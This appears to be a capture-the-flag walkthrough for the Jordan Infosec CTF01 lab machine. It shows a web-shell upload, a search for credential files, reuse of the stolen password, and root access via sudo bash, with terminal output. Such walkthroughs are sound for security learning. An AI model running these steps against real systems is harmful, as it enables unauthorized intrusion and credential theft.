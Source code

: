```yaml
---
title: Jordan Infosec CTF01
categories: [Proving Grounds, Play]
tags: [File Upload, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*WwEcNu2bHpKt_WpejYTupQ.png
  alt:  Jordaninfosec-CTF01 Machine 🖥️
---
```



### Let’s check the IP address of the victim machine →

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled.png)

```bash
IP : 10.0.2.46 
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%202.png)

hint.txt —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%204.png)

```bash
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```
{: .nolineno}
{: .nolineno}

Lets login into this site —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%205.png)

and now upload the reverse shell file here —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%206.png)

As ⬆️ I got success in uploading the files so lets load that shell file ➡️

```bash
URL --> http://10.0.2.46/uploaded_files/shell.php
```
{: .nolineno}
{: .nolineno}

In response to that I got this —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%207.png)

Actually, this statement of hidden file was a little misleading, because the file we are looking for was not hidden… I tried to search for user, pass, etc… files, but unfortunately, none of them worked. Lastly, I tried `find / -name cred*`, which revealed the /etc/mysql/conf.d/credentials.txt file.

```bash
www-data@Jordaninfosec-CTF01:/$ find / -name cred* 2>/dev/null
/sys/kernel/slab/cred_jar
/usr/share/man/man7/credentials.7.gz
/usr/share/doc/git/contrib/credential
/usr/src/linux-headers-4.4.0-31/include/linux/cred.h
/usr/src/linux-headers-4.4.0-210/include/linux/cred.h
/usr/src/linux-headers-4.4.0-72/include/linux/cred.h
/etc/mysql/conf.d/credentials.txt
www-data@Jordaninfosec-CTF01:/$
www-data@Jordaninfosec-CTF01:/$ cat /etc/mysql/conf.d/credentials.txt
cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/$
```
{: .nolineno}
{: .nolineno}

Now thank god I got the credentials I was pissed so bad —>

```bash
www-data@Jordaninfosec-CTF01:/$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/$
```
{: .nolineno}
{: .nolineno}

Now lets see how technawi can lead me to root —>

```bash
technawi@Jordaninfosec-CTF01:/$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/$
```
{: .nolineno}
{: .nolineno}

Now its root time ➡️

```bash
technawi@Jordaninfosec-CTF01:/$ sudo /bin/bash -i
sudo /bin/bash -i
root@Jordaninfosec-CTF01:/# whoami
whoami
root
root@Jordaninfosec-CTF01:/#
```
{: .nolineno}
{: .nolineno}

Let’s find out the last flag ➡️

```bash
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt
cat flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
root@Jordaninfosec-CTF01:/var/www/html#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }